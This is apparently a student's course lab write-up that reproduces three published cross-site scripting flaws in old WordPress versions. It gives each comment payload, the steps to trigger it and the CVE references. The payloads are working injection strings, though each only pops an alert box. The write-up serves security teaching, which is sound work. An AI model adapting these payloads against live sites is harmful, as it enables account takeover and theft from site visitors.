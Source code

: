 # CyberSecurity
Week 7 Assignment - WordPress vs. Kali

# Vulnerability 1 - Legacy Theme Preview Cross-Site Scripting (XSS)
Steps to reproduce:
1. Go to any post.
2. Paste the following as a comment:
```
<a href='/wp-admin/' title="" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(1)//'>Test</a>
```
3. Hover over the posted comment.
4. Alert(1) will pop up.

Type of Attack: XSS

Versions & Sources:
[!] Title: WordPress <= 4.2.3 - Legacy Theme Preview Cross-Site Scripting (XSS)
Reference: https://wpvulndb.com/vulnerabilities/8133
Reference: https://core.trac.wordpress.org/changeset/33549
Reference: https://blog.sucuri.net/2015/08/persistent-xss-vulnerability-in-wordpress-explained.html
Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5734
[i] Fixed in: 4.2.4

GIF: https://i.imgur.com/AWc0xbA.gif

# Vulnerability 2 - Authenticated Cross-Site Scripting (XSS)
Steps to reproduce:
1. Go to any post.
2. Paste the following as a comment:
```
http://www.example.com/wp-admin/customize.php?theme=<svg onload=alert(1)>
```
3. Alert(1) will pop up.

Type of Attack: XSS

Versions & Sources:
[!] Title: WordPress  3.7-4.4 - Authenticated Cross-Site Scripting (XSS)
Reference: https://wpvulndb.com/vulnerabilities/8358
Reference: https://wordpress.org/news/2016/01/wordpress-4-4-1-security-and-maintenance-release/
Reference: https://github.com/WordPress/WordPress/commit/7ab65139c6838910426567849c7abed723932b87
Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1564
[i] Fixed in: 4.2.6

GIF: https://i.imgur.com/ZmwMJau.gif


# Vulnerability 3 - Pupload Same Origin Method Execution (SOME)
Steps to reproduce:
1. Go to any post.
2. Paste the following as a comment:
```
<button onclick="fire()">Click</button>
<script>
function fire() {
 open('javascript:alert(1)');
}
</script>
```
3. Click on the button.
4. Alert(1) will pop up.

Type of Attack: XSS

Versions & Sources:
[!] Title: WordPress <= 4.5.1 - Pupload Same Origin Method Execution (SOME)
Reference: https://wpvulndb.com/vulnerabilities/8489
Reference: https://wordpress.org/news/2016/05/wordpress-4-5-2/
Reference: https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8
Reference: https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e
Reference: http://avlidienbrunn.com/wp_some_loader.php
Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566
[i] Fixed in: 4.2.8

GIF: https://i.imgur.com/eS4AppI.gif
